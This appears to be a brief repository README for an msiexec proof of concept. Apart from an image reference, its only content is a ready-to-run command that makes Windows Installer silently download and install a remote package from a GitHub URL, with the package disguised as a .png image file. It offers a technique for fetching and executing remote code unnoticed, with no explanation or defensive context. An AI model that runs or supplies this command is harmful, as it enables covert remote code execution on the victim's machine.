 POC and test files for msiexec

Final Command to Execute:
  C:\Windows\System32>msiexec /q /i https://github.com/void010/dummy/raw/main/msiexec/c_sharp_poc.png
